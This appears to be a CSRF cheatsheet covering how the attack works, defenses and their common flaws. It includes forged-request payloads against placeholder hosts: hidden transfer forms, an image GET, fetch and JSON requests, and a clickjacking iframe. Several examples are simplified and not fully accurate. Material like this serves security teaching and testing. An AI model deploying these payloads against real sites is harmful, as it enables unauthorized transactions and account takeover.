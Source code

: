 
# 🔥 CSRF (Cross-Site Request Forgery) Cheatsheet

## 🎯 What is CSRF?

Cross-Site Request Forgery (CSRF) is a web security vulnerability that allows attackers to trick a user into performing unwanted actions on a website where they are authenticated.

- **Key Feature:** Exploits the trust a web application places in the user’s browser.
- **Target Actions:**
  - Changing user details.
  - Transferring funds.
  - Changing account settings.
  - Making unauthorized purchases.

---

## 💣 Impact of a CSRF Attack

- **Account Takeover:**
  - Attackers can modify account credentials, including passwords or email addresses.
- **Unauthorized Transactions:**
  - Transfer funds, purchase items, or execute sensitive operations tied to user credentials.
- **Privilege Escalation:**
  - If administrators are targeted, CSRF can be used to change settings or create privileged accounts.
- **Data Exposure or Manipulation:**
  - CSRF can alter or delete sensitive data on behalf of the victim.

---

## 🔍 How Does CSRF Work?

1. **User Authentication:**
   - Victim is logged into a web application and has an active session (cookies or tokens).
2. **Malicious Request Crafted:**
   - Attacker creates a request to perform an action on the target application.
3. **User Tricked into Triggering the Request:**
   - Delivered via phishing emails, hidden forms, or embedded scripts.
4. **Request Executed on Target Site:**
   - Browser automatically includes session cookies, and the server processes it as if it originated from the victim.

---

## 🛠️ Constructing a CSRF Attack

### Example: Unauthorized Money Transfer

#### Targeted Functionality:
```http
POST /transfer HTTP/1.1
Host: bank.com
Content-Type: application/x-www-form-urlencoded

amount=1000&to_account=attacker_account
```

#### Malicious HTML Form:
```html
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to_account" value="attacker_account">
  <input type="submit" value="Click Here">
</form>
```

#### Delivery to the Victim:
- Link the malicious form on a webpage or trick the user into clicking via social engineering.

---

## 🔑 Common Defenses Against CSRF

1. **CSRF Tokens**
   - Unique, unguessable values included in sensitive requests.
   - **Implementation Example (PHP):**
     ```php
     // Generate CSRF token
     $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
     ?>
     <form method="POST">
       <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
     </form>
     ```
   - **Validation:**
     ```php
     if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
         die("CSRF validation failed.");
     }
     ```

2. **SameSite Cookies**
   - Restrict cookies from being sent with cross-site requests.
   - **Options:**
     - `Strict`: Cookies sent only for same-origin requests.
     - `Lax`: Allows cookies for top-level navigation and GET requests.
   - **Example:**
     ```http
     Set-Cookie: sessionid=abc123; SameSite=Strict; Secure; HttpOnly
     ```

3. **Referer and Origin Header Validation**
   - Validate headers in sensitive requests to ensure trusted origins.
   - **Example:**
     ```php
     $origin = $_SERVER['HTTP_ORIGIN'] ?? '';
     if ($origin !== 'https://trusted-site.com') {
         die("Invalid origin.");
     }
     ```

4. **Custom Headers**
   - Require requests to include a custom header:
     ```javascript
     fetch('/transfer', {
         method: 'POST',
         headers: { 'X-CSRF-Token': csrfToken },
         body: JSON.stringify({ amount: 1000 })
     });
     ```

---

## 🔓 Common Flaws in CSRF Defenses

- **Token Validation Issues:**
  - Tokens validated only for presence, not correctness.
- **Tokens Not Tied to Sessions:**
  - Tokens reused across sessions are vulnerable.
- **Tokens Stored in Cookies:**
  - Susceptible to CSRF as browsers include cookies automatically.
- **SameSite Cookie Bypasses:**
  - **Bypassing Lax Mode:**
    - Use GET requests for operations allowed by Lax cookies.
  - **On-Site Gadgets:**
    - Leverage vulnerable endpoints reflecting input back to attackers.

---

## 🛠️ Delivering a CSRF Exploit

### Methods:
1. **Hidden Forms:**
   ```html
   <form action="https://target.com/transfer" method="POST">
     <input type="hidden" name="amount" value="1000">
     <input type="hidden" name="to_account" value="attacker_account">
   </form>
   ```

2. **GET Requests in URLs:**
   ```html
   <img src="https://target.com/transfer?amount=1000&to_account=attacker_account">
   ```

3. **JavaScript Requests:**
   ```javascript
   fetch('https://target.com/transfer', {
       method: 'POST',
       body: 'amount=1000&to_account=attacker_account'
   });
   ```

---

## 🚨 Advanced CSRF Exploit Techniques

### 1. Bypassing SameSite Restrictions
- Use timing and redirection gadgets.
- Example:
  - Exploit sibling domains sharing cookies by redirecting users between them.

### 2. On-Site Gadget Exploitation
- Exploit endpoints that reflect input:
  ```javascript
  fetch('https://target.com/redirect?url=https://malicious-site.com');
  ```

### 3. JSON CSRF
- Exploit JSON-based endpoints that lack proper CSRF protection:
  ```javascript
  fetch('https://target.com/json/transfer', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ amount: 1000, to_account: 'attacker_account' })
  });
  ```

### 4. Clickjacking + CSRF
- Combine CSRF with clickjacking to trick users into clicking hidden buttons:
  ```html
  <iframe src="https://target.com/transfer" style="opacity: 0; position: absolute;"></iframe>
  ```

---

## 🛠️ Tools for CSRF Testing

| **Tool**        | **Purpose**                       | **URL**      |
|------------------|-----------------------------------|--------------|
| Burp Suite       | Manual CSRF vulnerability testing | [Burp Suite](https://portswigger.net/burp) |
| OWASP ZAP        | Automated CSRF scan              | [ZAP](https://owasp.org/www-project-zap/) |
| Postman          | Token validation testing         | [Postman](https://www.postman.com/) |
